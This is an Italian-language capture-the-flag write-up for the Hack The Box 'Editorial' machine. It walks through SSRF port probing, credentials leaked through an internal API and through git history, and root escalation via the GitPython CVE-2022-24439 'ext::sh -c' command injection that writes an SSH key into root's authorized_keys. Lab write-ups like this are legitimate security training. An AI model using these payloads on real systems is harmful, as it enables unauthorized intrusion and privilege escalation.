







**TARGET: 10.10.11.20**

# INFORMATION GHATERING

Per prima cosa eseguiamo un scan [Nmap](Note/Tool/Nmap.md)
```bash
┌──(kali㉿kali)-[~/htb/editorial]
└─$ sudo nmap -sSVC 10.10.11.20
[sudo] password for kali:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-06 12:29 CEST
Nmap scan report for 10.10.11.20
Host is up (0.037s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.72 seconds
```

abbiamo solo due porte aperte

- 22 ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.7
- 80 http nginx 1.18.0 (Ubuntu) 

abbiamo un redirect a http://editorial.htb che andremmo ad aggiungere al nostro `etc/hosts`

```bash
┌──(kali㉿kali)-[~/htb/editorial]
└─$ sudo echo '10.10.11.20 editorial.htb' | sudo tee -a /etc/hosts
10.10.11.20 editorial.htb
```

un ulteriore scan su tutte le porte non ci da nessuna nuova informazione

# ENUMERATION

Visitando la porta 80 ci troviamo davanti ad un sito di un editore per la pubblicazione di libri 



nella sezione `Publish whit us` che fa riferimento alla pagina `/upload` abbiamo un form dove è possibile caricare dei file potrebbe essere un vettore d'attacco per una SSFR

>[!NOTA] SSRF (Server-Side Request Forgery) è una vulnerabilità di sicurezza web che permette a un attaccante di indurre un server a effettuare richieste a risorse o servizi che non dovrebbe poter raggiungere. Ecco una spiegazione semplice: 
>1. **Cos'è un SSRF?** SSRF sta per Server-Side Request Forgery, ovvero una falsificazione di richieste lato server. Si verifica quando un attaccante può manipolare una funzione del server per fare richieste a un'altra risorsa.
  >  
>2. **Come funziona?** Immagina che un server web possa ricevere una URL come input e fare una richiesta HTTP a quell'URL. Se questo input non è adeguatamente controllato, un attaccante può inserire un URL malevolo.

Proviamo per questa via aprendo [BurpSuite](BurpSuite) intercettiamo una richiesta

come possiamo vedere abbiamo la directory di dove vengono salvate le immagini `/static/images`
Ora quello che possiamo fare e vedere se abbiamo altre porte in locare aperte dove potremmo trovare altre directory dove vengo salvati elementi  e per farlo possiamo utilizzare l'opzione `intruder` di burp



impostiamo il payload come da immagine, ovvero testando tutte le porte incrementando di uno da ogni richiesta, quello che ci aspettiamo sarà un riposta diversa in termini di "peso" che starà ad indicare un riposta diversa da una porta chiusa.



Come possiamo vedere, la porta 5000 restituisce risultati diversi. Vediamo la risposta dalla porta 5000.

 

la scarichiamo e lo leggiamo 

```bash
┌──(kali㉿kali)-[~/htb/editorial]
└─$ cat f97b183a-f487-4c83-ad2b-bbc68e3e969e | jq
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

Osservando questo file, sappiamo che la porta locale 5000 ha un endpoint API
proviamo ad effettuare una richiesta ad ogni endponit per vedere se riusciamo a scaricare come prime qualche file che può contenere informazioni interessanti.

L'endpoint `/api/latest/metadata/messages/authors` contiene un messaggio molto interessante.



lo scarichiamo e lo leggiamo, è un messaggio di benvenuto con delle credenziali per accedere ad un forum interno.

```bash
┌──(kali㉿kali)-[~/htb/editorial]
└─$ cat 7aae57cd-0763-489e-9e27-f8ce29a21348 | jq
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```

Proviamo le credenziali trovate per accedere in ssh.

```bash
┌──(kali㉿kali)-[~/htb/editorial]
└─$ ssh dev@10.10.11.20
The authenticity of host '10.10.11.20 (10.10.11.20)' can't be established.
ED25519 key fingerprint is SHA256:YR+ibhVYSWNLe4xyiPA0g45F4p1pNAcQ7+xupfIR70Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.20' (ED25519) to the list of known hosts.
dev@10.10.11.20's password:
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Aug  8 09:46:39 AM UTC 2024

  System load:           0.08
  Usage of /:            61.3% of 6.35GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             226
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.20
  IPv6 address for eth0: dead:beef::250:56ff:fe94:b7aa


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Jun 10 09:11:03 2024 from 10.10.14.52
dev@editorial:~$
```

Siamo dentro e ci prendiamo la nostra user flag

```bash
dev@editorial:~$ cat user.txt
3ba1d6edc5c5a531e918f5c4ffe62c1e
```


# PRIVESC

## dev --> prod

La cartella `app` contiene una repo git, e con il comando `git log` possiamo vedere i commit passati.

```bash
dev@editorial:~$ ls
apps  user.txt
dev@editorial:~$ cd apps/
dev@editorial:~/apps$ ls -lah
total 12K
drwxrwxr-x 3 dev dev 4.0K Aug  8 09:48 .
drwxr-x--- 4 dev dev 4.0K Jun  5 14:36 ..
drwxr-xr-x 8 dev dev 4.0K Jun  5 14:36 .git
dev@editorial:~/apps$ cd .git/
dev@editorial:~/apps/.git$ ls
branches  COMMIT_EDITMSG  config  description  HEAD  hooks  index  info  logs  objects  refs
dev@editorial:~/apps/.git$ git log
commit 8ad0f3187e2bda88bba85074635ea942974587e8 (HEAD -> master)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:04:21 2023 -0500

    fix: bugfix in api port endpoint

commit dfef9f20e57d730b7d71967582035925d57ad883
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:01:11 2023 -0500

    change: remove debug and update api port

commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev

    * To use development environment.

commit 1e84a036b2f33c59e2390730699a488c65643d28
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:51:10 2023 -0500

    feat: create api to editorial info

    * It (will) contains internal info about the editorial, this enable
       faster access to information.

commit 3251ec9e8ffdd9b938e83e3b9fbf5fd1efa9bbb8
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:48:43 2023 -0500

    feat: create editorial app

    * This contains the base of this project.
    * Also we add a feature to enable to external authors send us their
       books and validate a future post in our editorial.
```

il commit `b73481bb823d2dfb49c44f4c1e6a7e11912ed8a` è quello che ci fornisce delle nuove credenziali per un altro utente `prod` con la relativa password `080217_Producti0n_2023!@`


```bash
dev@editorial:~/apps/.git$ git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8a
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev

    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass

 # -------------------------------
```


Passiamo all'utente `prod`

```bash
dev@editorial:~/apps/.git$ su prod
Password:
prod@editorial:/home/dev/apps/.git$
```


## prod --> root

Proviamo subito un `sudo -l` per vedere se possiamo eseguire qualcosa come root

```bash
prod@editorial:/home/dev/apps/.git$ sudo -l
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

diamogli un occhio per capire cosa fa

```bash
prod@editorial:/home/dev/apps/.git$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

Questo codice utilizza la libreria git per eseguire l'operazione di clonazione. Successivamente, controlleremo la versione della libreria utilizzando  `pip3 list`

```bash
prod@editorial:/home/dev/apps/.git$ pip3 list
Package               Version
--------------------- ----------------
attrs                 21.2.0
Automat               20.2.0
Babel                 2.8.0
bcrypt                3.2.0
blinker               1.4
certifi               2020.6.20
chardet               4.0.0
click                 8.0.3
colorama              0.4.4
command-not-found     0.3
configobj             5.0.6
constantly            15.1.0
cryptography          3.4.8
dbus-python           1.2.18
distro                1.7.0
distro-info           1.1+ubuntu0.2
Flask                 2.2.2
gitdb                 4.0.10
GitPython             3.1.29 # questa è libreria interessata
```

Cercando in internet scopriamo che questa versione di sembra essere affetta da un [RCE](https://github.com/gitpython-developers/GitPython/issues/1515) e relativa alla [CVE2022-24439](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858)

Visto che questa RCE ci consente di leggere, modificare e aggiungere file con privilegi di root 
quello che andremmo a fare e creare una coppia di chiavi rsa, una pubblica e una privata.

Quella pubblica poi  l'andremmo ad aggiungere in `/root/.ssh/autohorized_keys`

ci creiamo la coppia di chiavi 

```bash
┌──(kali㉿kali)-[~/htb/editorial]
└─$ ssh-keygen
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/kali/.ssh/id_ed25519): id_rsa
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in id_rsa
Your public key has been saved in id_rsa.pub
The key fingerprint is:
SHA256:MbJoZ5Yd8SAxm+7Z32Hi16DQCtNtvsrLrmoIC4EKDxU kali@kali
The key's randomart image is:
+--[ED25519 256]--+
|  E.  +.o        |
|  .    = +       |
|..    + + .      |
|=    o = +       |
|o+  o B.So       |
|+ .. =ooo + .    |
|.o .  oo.=..oo   |
|. . .  o.oo+...  |
|   ....o*o+o.    |
+----[SHA256]-----+

┌──(kali㉿kali)-[~/htb/editorial]
└─$ ls
7aae57cd-0763-489e-9e27-f8ce29a21348  86015df5-64a9-4769-9176-cff2dff9ef29  id_rsa  id_rsa.pub  request.txt
```

Copiamo la `ida_rsa.pub` nella cartella `/tmp` del target e la rinominiamo `authotized_keys`
e siamo pronti ed utilizzare la RCE nel seguente modo.

```bash
prod@editorial:/tmp$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cat% /tmp/authorized_keys% >>% /root/.ssh/authorized_keys'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c cat% /tmp/authorized_keys% >>% /root/.ssh/authorized_keys new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
```

Tornando sulla nostra macchina diamo e permessi con il classico `chmod +600` alla nostra id_rsa privata creata in precedenza per collegarci e siamo pronti 


```bash
┌──(kali㉿kali)-[~/htb/editorial]
└─$ ssh root@10.10.11.20 -i id_rsa
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Aug  8 10:41:36 AM UTC 2024

  System load:           0.0
  Usage of /:            60.6% of 6.35GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             233
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.20
  IPv6 address for eth0: dead:beef::250:56ff:fe94:b7aa


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


root@editorial:~# whoami
root
root@editorial:~# cat root.txt
28cd0fd1541d014e34ace20676531103
```
